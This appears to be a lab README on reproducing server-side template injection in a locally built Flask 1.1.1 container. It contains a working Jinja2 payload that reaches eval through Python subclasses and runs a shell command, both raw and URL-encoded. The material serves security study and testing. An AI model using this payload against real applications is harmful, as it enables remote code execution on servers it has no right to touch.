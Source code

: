# Flask (Jinja2) Server-Side Template Injection

[中文版本(Chinese version)](README.zh-cn.md)

Flask is a popular Python web framework that uses Jinja2 as its template engine. A Server-Side Template Injection (SSTI) vulnerability can occur when user input is directly rendered in Jinja2 templates without proper sanitization, potentially leading to remote code execution.

References:

- <https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf>
- <http://rickgray.me/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates>

## Environment Setup

Execute the following commands to build and start a Web application based on Flask 1.1.1:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8000/` to view the default page.

## Vulnerability Reproduction

First, verify the SSTI vulnerability exists by visiting:

```
http://your-ip:8000/?name={{233*233}}
```

If you see the result `54289`, it confirms the presence of the SSTI vulnerability.

To achieve remote code execution, you can use the following POC that obtains the `eval` function and executes arbitrary Python code:

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

Visit the following URL (with the POC URL-encoded) to execute the command:

```
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

The command execution result will be displayed:

![](1.png)
